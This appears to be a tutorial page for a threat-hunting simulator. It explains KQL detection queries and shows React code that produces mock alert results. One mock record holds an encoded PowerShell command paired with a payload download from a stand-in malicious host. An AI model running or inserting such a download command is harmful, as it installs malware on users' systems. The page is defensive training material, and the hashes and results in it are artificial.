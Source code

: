 **Query 4: File Hash Analysis**
```kql
FileCreationEvents 
| where SHA256 in ("e3b0c44298fc1c149afbf4c8996fb924", "d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2") 
| join ProcessCreationEvents on DeviceName 
| project Timestamp, FileName, ProcessName, UserName
```

**Advanced Techniques:**
- **Hash-based Detection**: SHA256 identifies known malicious files
- **`join`**: Combines data from multiple tables (like SQL JOIN)
- **Threat Intelligence**: Hashes come from external threat feeds

**Query 5: User Behavior Analytics**
```kql
SigninLogs 
| where TimeGenerated > ago(24h) 
| where ResultType == "0" 
| summarize LocationCount = dcount(Location) by UserPrincipalName 
| where LocationCount > 3
```

**Behavioral Analysis:**
- **`ago(24h)`**: Last 24 hours (KQL time function)
- **`dcount()`**: Count of distinct values
- **Impossible Travel**: User logging in from multiple countries

### **🔧 Query Execution Simulation:**

```tsx
const executeQuery = (query) => {
  setSelectedQuery(query);
  setIsRunningQuery(true);
  
  // Simulate realistic query execution time
  setTimeout(() => {
    const mockResults = generateMockResults(query);
    setQueryResults(mockResults);
    setIsRunningQuery(false);
  }, 2000); // 2-second delay for realism
};

const generateMockResults = (query) => {
  switch(query.id) {
    case 1: // PowerShell query
      return [
        {
          timestamp: "2024-01-15T10:30:22Z",
          computer: "WS-DEV-001",
          user: "suspicious_user",
          process: "powershell.exe",
          commandline: "powershell -enc SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0AA==",
          threat_score: 85,
          decoded_command: "Invoke-WebRequest http://malicious-site.com/payload.exe"
        },
        {
          timestamp: "2024-01-15T10:25:15Z",
          computer: "WS-HR-003",
          user: "finance_user",
          process: "powershell.exe",
          commandline: "powershell -enc VwByAGkAdABlAC0ASABvAHMAdAAgACIASABlAGwAbABvACEAIgA=",
          threat_score: 25,
          decoded_command: "Write-Host 'Hello!'" // Benign
        }
      ];
    case 2: // Failed logins
```